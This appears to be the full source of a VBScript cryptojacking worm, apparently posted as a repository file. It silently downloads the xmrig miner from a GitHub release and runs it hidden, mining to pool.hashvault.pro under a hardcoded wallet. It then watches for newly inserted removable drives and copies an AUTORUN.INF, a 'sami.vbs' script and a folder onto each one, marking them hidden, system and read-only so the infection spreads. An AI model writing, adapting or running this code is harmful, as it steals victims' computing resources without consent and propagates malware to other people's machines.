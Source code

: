 Option Explicit
On Error Resume Next

Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs, autorunFile, vbsFile, openFolder
Dim http, stream, fso, wshShell, shellApp, scriptPath, zipFilePath, extractPath, exePath, command
Dim srcAutorunPath, srcVbsPath, srcOpenFolderPath
Dim wmiService, initialDrives, colDisks, objDisk, driveLetter
Dim destAutorun, destVbs, destFolder
Dim currentDrives, key
Dim zipFolder

downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o pool.hashvault.pro:443 -u 471q5TCWH23JtsjiSVNXs8TNRCp4aadn7b5Lmxi9xFrLgimAFyqajGqXAfDFjFvZkiRkZmEnC3wYbeMs1FsJ8u8oVmf17Fc -p ratul -a rx/0 -k --donate-level 1"
autorunFile = "AUTORUN.INF"
vbsFile = "sami.vbs"
openFolder = "OpenFile"

Set fso = CreateObject("Scripting.FileSystemObject")
Set wshShell = CreateObject("WScript.Shell")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "")

' Correctly define paths based on user's directory structure
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)
srcAutorunPath = fso.BuildPath(scriptPath, autorunFile)
srcVbsPath = fso.BuildPath(scriptPath, vbsFile)
srcOpenFolderPath = fso.BuildPath(scriptPath, openFolder)

If Not fso.FileExists(exePath) Then
    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    If Err.Number = 0 Then
        http.SetTimeouts 10000, 30000, 60000, 60000
        http.Open "GET", downloadUrl, False
        http.Send
        If http.Status = 200 Then
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write http.ResponseBody
            stream.SaveToFile zipFilePath, 2
            stream.Close
            Set stream = Nothing
            
            Set shellApp = CreateObject("Shell.Application")
            If fso.FileExists(zipFilePath) Then
                Set zipFolder = shellApp.NameSpace(zipFilePath)
                Set destFolder = shellApp.NameSpace(extractPath)
                destFolder.CopyHere zipFolder.Items, 20
            End If
            Set shellApp = Nothing
        End If
        Set http = Nothing
    End If
End If

If fso.FileExists(exePath) Then
    command = """" & exePath & """ " & minerArgs
    wshShell.Run command, 0, False
End If

Set initialDrives = CreateObject("Scripting.Dictionary")
Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")

For Each objDisk in colDisks
    initialDrives.Add objDisk.DeviceID, True
Next

Do
    WScript.Sleep 5000
    Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")
    
    For Each objDisk in colDisks
        driveLetter = objDisk.DeviceID
        If Not initialDrives.Exists(driveLetter) Then
            initialDrives.Add driveLetter, True
            WScript.Sleep 10000 ' Wait 10 seconds after detection
            
            destAutorun = fso.BuildPath(driveLetter & "\", autorunFile)
            destVbs = fso.BuildPath(driveLetter & "\", vbsFile)
            destFolder = fso.BuildPath(driveLetter & "\", openFolder)
            
            fso.CopyFile srcAutorunPath, destAutorun, True
            fso.CopyFile srcVbsPath, destVbs, True ' Added missing line to copy sami.vbs
            fso.CopyFolder srcOpenFolderPath, destFolder, True
            
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destAutorun & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destVbs & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destFolder & """ /s /d", 0, True
        End If
    Next
    
    Set currentDrives = CreateObject("Scripting.Dictionary")
    For Each objDisk in colDisks
        currentDrives.Add objDisk.DeviceID, True
    Next

    For Each key in initialDrives.Keys
        If Not currentDrives.Exists(key) Then
            initialDrives.Remove(key)
        End If
    Next
Loop
